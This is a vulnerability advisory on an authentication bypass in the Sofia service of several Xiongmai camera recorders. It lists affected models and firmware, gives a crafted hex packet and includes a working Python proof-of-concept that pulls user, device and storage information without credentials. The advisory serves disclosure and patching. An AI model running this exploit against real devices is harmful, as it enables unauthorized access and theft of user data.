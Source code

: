 # Xiongmai Devices Unauthorized Incorrect Access Control and Command Execution

## Summary

A significant security vulnerability has been identified across a range of Xiongmai hardware products. The vulnerability resides within the implementation of the Sofia service( default port: `34567`), allowing for unauthorized command execution due to incorrect access control. This vulnerability enables attackers to issue commands without proper authentication, leading to unauthorized access and potential control over device functionalities, posing a severe security risk to both the system's integrity and the confidentiality of user data, affecting over 390,000 devices on the Internet.

![Untitled](Untitled.png)

## **Affected Devices**

**Vendor:** Xiongmai 

**Hardware:**

- AHB7804R-MH-V2
- AHB8008T-GL
- AHB8004T-GL
- XM530_R80X30-PQ_8M
- AHB7004T-GS-V3
- AHB8032F-LME
- AHB7004T-MHV2

**SoftwareVersion:**

- V4.03.R11.4915714A.12201.142300.0000000
- V4.02.R11.A8531149.10001.131900.00000
- V4.03.R11.4912720B.11201.142300.0000004
- V4.03.R11.4912720D.11201.142300.0000004
- V5.00.R02.00030751.10010.348717.0000000
- V4.02.R11.C6380171.11201.141900.00000
- V4.03.R11.0000020X.11201.042300.0000005
- V4.02.R11.24340142.10001.131900.00000

## CWE

CWE-284 (Improper Access Control)

## **Vulnerability Details**

The vulnerability is triggered by sending a crafted packet containing an undocumented command code (**`1009`**) to the device. This packet bypasses the standard authentication mechanisms, granting the attacker unauthorized access.

- **Request Packet**: The attack vector is a packet that begins with a standardized header `ff00000000000000000000000000`, followed by the command code `f103` (little-endian hex for `1009`), and a payload that includes an indication of successful operation `{ "Ret" : 100, "SessionID" : "0x0" }`. This packet does not appear to require authentication or validation to process, leading to the vulnerability.

```
ff00000000000000000000000000f103250000007b202252657422203a203130302c202253657373696f6e494422203a202230783022207d0a
```

## PoC

The following Python script demonstrates the vulnerability exploitation process:

Notably, under normal operational conditions, accessing to commands that request sensitive information such as users information, system information, and storage information require proper authentication and authorization. However, **the discovered vulnerability circumvents these security measures, allowing an attacker to send command packets without any authentication.** 

```python
import socket
import socks  # PySocks
import json

HOST = 'Target_IP_Address'
PORT = 34567
print('Target: '+str(HOST)+":"+str(PORT))

# Define the commands to send in order
commands = [
    'ff00000000000000000000000000f103250000007b202252657422203a203130302c202253657373696f6e494422203a202230783022207d0aff00000000000000000000000000ac05300000007b20224e616d6522203a20224f5054696d655175657279222c202253657373696f6e494422203a202230783022207d0a',  # Initial command
    'ff00000000000000000000000000ee032e0000007b20224e616d6522203a20224b656570416c697665222c202253657373696f6e494422203a202230783022207d0a',  # KeepAlive
    'ff00000000000000000000000000c00500000000',  # Users Information
    'ff00000000000000000000000000fc032f0000007b20224e616d6522203a202253797374656d496e666f222c202253657373696f6e494422203a202230783022207d0a',  # Device Information
    'ff00000000000000000000000000fc03300000007b20224e616d6522203a202253746f72616765496e666f222c202253657373696f6e494422203a202230783022207d0a',  # Storage Information
]

def send_data(s, data):
    binary_data = bytes.fromhex(data) 
    s.sendall(binary_data)

def recv_all(s):
    s.settimeout(10.0)
    data = b''
    while True:
        try:
            part = s.recv(1024)
            data += part
            if part.endswith(b'\x0a\x00'):
                break
        except socket.timeout:
            break
    return data

def process_commands(socket, commands):
    for command in commands:
        send_data(socket, command)
        response = recv_all(socket)
        print("response\n", response)
        if b'"Ret" : 100' not in response:
            print("Not meet the expected condition, stopping...")
            break

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.settimeout(10)
    s.connect((HOST, PORT))
    process_commands(s, commands)

```

Specifically, this script illustrates how an attacker can utilize a series of commands to manipulate device settings or extract sensitive information without authorization.

[pocCheck3-en.py](pocCheck3-en.py)

## Exploitation

### Sample 1

AHB7804R-MH-V2

V4.03.R11.4915714A.12201.142300.0000000

![Untitled](Untitled%201.png)

**PCAP file:**

![Untitled](Untitled%202.png)

![Untitled](Untitled%203.png)

### Sample 2

AHB7804R-MH-V2

V4.02.R11.A8531149.10001.131900.00000

![Untitled](Untitled%204.png)

### Sample 3

AHB8008T-GL

V4.03.R11.4912720B.11201.142300.0000004

![Untitled](Untitled%205.png)

### Sample 4

AHB8004T-GL

V4.03.R11.4912720D.11201.142300.0000004

![Untitled](Untitled%206.png)

### Sample 5

AHB8004T-GL

V4.03.R11.4912720D.11201.142300.0000004

![Untitled](Untitled%207.png)

### Sample 6

XM530_R80X30-PQ_8M

V5.00.R02.00030751.10010.348717.0000000

![Untitled](Untitled%208.png)

### Sample 7

AHB7004T-GS-V3

V4.02.R11.C6380171.11201.141900.00000

![Untitled](Untitled%209.png)

### Sample 8

 AHB8032F-LME

V4.03.R11.0000020X.11201.042300.0000005

![Untitled](Untitled%2010.png)

### Sample 9

AHB7004T-MHV2

V4.02.R11.24340142.10001.131900.00000 

![Untitled](Untitled%2011.png)

## Impact

The exploitation of this vulnerability could allow an attacker to perform unauthorized actions on the affected device, potentially leading to information disclosure, device manipulation, or disruption of service.

## Recommendations

Investigate and patch the firmware to validate command codes against a list of authorized commands.
